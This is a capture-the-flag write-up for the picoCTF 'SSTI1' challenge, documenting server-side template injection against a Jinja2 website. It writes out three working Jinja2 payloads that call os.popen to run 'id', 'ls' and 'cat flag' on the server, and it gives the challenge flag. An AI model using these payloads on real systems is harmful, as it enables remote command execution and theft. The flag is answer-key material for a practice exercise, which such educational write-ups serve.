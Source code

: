 # 1. SSTI1

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

<img width="575" height="444" alt="62750a98cf16788403fc63d5_SSTI20Chart" src="https://github.com/user-attachments/assets/77d6a569-3b66-4144-9e29-a13059c6aa69" />

used these payload commands to know it is jinja2.
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
<img width="1657" height="520" alt="image" src="https://github.com/user-attachments/assets/57ae47cc-7efe-489b-a2ea-4803a7f467ea" />
got to know that we are running as a root user

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

<img width="1744" height="498" alt="image" src="https://github.com/user-attachments/assets/be08409f-34bc-4a0a-b2db-2ed8769e4fb5" />
listing out the files

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

<img width="1906" height="371" alt="image" src="https://github.com/user-attachments/assets/08ad9400-baae-4e99-b79b-b483b78b1267" />
cat the flag file

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

## Concepts learnt:
- what is ssti
- different paylaods
- jinja2 paylaods

## Resources
- https://onsecurity.io/article/server-side-template-injection-with-jinja2/
- https://www.we45.com/post/server-side-template-injection-a-crash-course


